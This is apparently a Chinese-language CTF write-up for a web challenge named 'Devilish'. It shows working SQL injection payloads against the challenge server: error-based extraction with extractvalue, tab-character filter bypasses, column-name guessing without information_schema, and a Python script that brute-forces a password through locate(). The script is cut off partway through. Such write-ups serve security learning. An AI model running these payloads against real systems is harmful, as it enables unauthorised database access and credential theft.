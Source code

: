 0x05 Devilish
=====

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> 
> http://188.40.18.70/

首先找到一个SQl注入当做突破口。

```
http://188.40.18.70/PROFILE/54\/KiTTyKiTTy 

```

在页面的注释里面可以找到具体执行的SQL语句

```
<!--SELECT * FROM users WHERE id_user='54\' AND Us3rN4m3='KiTTyKiTTy'--> 

```

注入点过滤了很多东西，经过尝试XML报错的方式是可以利用的。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09Us3rN4m3%09from%09users%09limit%091)))--%09 

```

因为information_schema 被过滤了，我们需要用另外一种方式来猜出字段名

```
http://188.40.18.70/PROFILE/54%5C/-%28select%09*%09from%09%28select%09*%09from%09users%09join%09users%09b%09using%28id_user,Us3rN4m3,Em4iL4dr3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29c%29--%09

```

执行可得知密码字段为P4sWW0rD_0F_M3_WTF，好变态 - -！

报错出密码，这里有一个比较坑的地方就是因为报错信息长度有限制的关系，这里并不会显示全部的密码。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09P4sWW0rD_0F_M3_WTF%09from%09users%09limit%091)))--%09

```

我们可以使用locate暴力猜出剩余的密码。 写了一个比较渣的脚本

```
import requests
import string 

charset = string.ascii_letters + string.digits

print charset

if __name__=='__main__':
    ipass = 'sd654egezjniufsdqc89q7d65azd123'
    print ipass.encode('hex')
    while True:
        for i in charset:
            t = ipass + i
            r = requests.get('http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09locate(0x'+t.encode('hex')+',P4sWW0rD_0F_M3_WTF)%09from%09users%09limit%091)))--%09')
            if r.text.find('XPATH syntax error: \'\1\'')!=-1:
                print 'Got it!'+i
                ipass = t
                print ipass
            else:
```